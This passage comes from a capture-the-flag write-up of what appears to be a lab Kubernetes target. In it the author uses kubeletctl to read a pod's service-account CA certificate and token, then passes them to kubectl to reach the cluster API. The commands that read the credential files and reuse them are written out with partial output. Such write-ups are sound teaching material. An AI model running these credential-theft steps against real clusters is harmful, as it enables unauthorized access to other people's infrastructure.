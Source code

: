 These are the three [expected files](https://book.hacktricks.xyz/cloud-security/pentesting-kubernetes/enumeration-from-a-pod):

> **ca.crt**: It’s the ca certificate to check kubernetes communications
>
> **namespace**: It indicates the current namespace
>
> **token**: It contains the **service token** of the current pod.

With the `ca.crt` and the `token`, I can authenticate to the cluster.

I’ll save these (`tee` will write them to a file and show them via stdout):

```

oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "cat /run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee ca.crt
-----BEGIN CERTIFICATE-----
MIIDBjCCAe6gAwIBAgIBATANBgkqhkiG9w0BAQsFADAVMRMwEQYDVQQDEwptaW5p
a3ViZUNBMB4XDTIxMTEyOTEyMTY1NVoXDTMxMTEyODEyMTY1NVowFTETMBEGA1UE
...[snip]...

oxdf@hacky$ kubeletctl -s 10.10.11.133 exec "cat /run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee token
eyJhbGciOiJSUzI1NiIsImtpZCI6Im1aLUpKcmtjMFJTM3hpT083ZUNNLWk2WTRvNENTZWRvMVBZNmpaY1FmMUUifQ.eyJhdWQiOlsiaHR0cHM6Ly9rdWJlcm5ldGVzLmRlZmF1bHQuc3ZjLmNsdXN0ZXIubG9jYWwiXSwiZ
...[snip]...

```

#### Auth to Kubernetes API

To use `kubectl`, I’ll save the `token` in an environment variable, `token` (to save a lot of copy and pasting):

```

oxdf@hacky$ export token=$(kubeletctl -s 10.10.11.133 exec "cat /run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx)

```

Now I can pass the `ca.crt` file and the `token` to `kubectl` and it doesn’t ask for a username and password:

```

oxdf@hacky$ kubectl --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$token get pod
NAME    READY   STATUS    RESTARTS   AGE
nginx   1/1     Running   0          14h

```

`get pod` returns information about the running pod! I

#### can-i
